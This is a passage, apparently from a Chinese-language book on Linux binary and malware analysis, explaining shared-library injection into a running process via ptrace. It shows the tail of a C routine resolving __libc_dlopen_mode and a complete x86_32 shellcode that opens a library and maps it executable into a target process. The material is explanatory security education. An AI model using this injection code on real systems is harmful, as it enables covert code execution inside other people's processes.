 ```
        symaddr = symaddr + globals.libc_addr;

        DBG_MSG("[DEBUG]-> get_sym_from_libc() addr of __libc_dl_*: %lx\n", symaddr);
        return symaddr;

}
```

为了进一步揭开共享库注入的神秘面纱，让我向您展示一种更简单的技术，即使用`ptrace`注入的 shellcode 来将共享库`open()/mmap()`到进程地址空间中。这种技术可以使用，但需要恶意软件手动处理所有的热补丁重定位。`__libc_dlopen_mode()`函数通过动态链接器本身透明地处理所有这些，因此从长远来看实际上更容易。

### 代码示例-用于 mmap() ET_DYN 对象的 x86_32 shellcode

以下 shellcode 可以注入到给定进程中的可执行段中，然后使用`ptrace`执行。

请注意，这是我在本书中第二次使用这个手写的 shellcode 作为示例。我在 2008 年为 32 位 Linux 系统编写了它，并且方便在示例中使用。否则，我肯定会写一些新的内容来演示 x86_64 Linux 中更现代的方法：

```
_start:
        jmp B
A:

        # fd = open("libtest.so.1.0", O_RDONLY);

        xorl %ecx, %ecx
        movb $5, %al
        popl %ebx
        xorl %ecx, %ecx
        int $0x80

        subl $24, %esp

        # mmap(0, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_SHARED, fd, 0);

        xorl %edx, %edx
        movl %edx, (%esp)
        movl $8192,4(%esp)
        movl $7, 8(%esp)
        movl $2, 12(%esp)
        movl %eax,16(%esp)
        movl %edx, 20(%esp)
        movl $90, %eax
        movl %esp, %ebx
        int $0x80

        # the int3 will pass control back the tracer
        int3
B:
        call A
        .string "/lib/libtest.so.1.0"
```
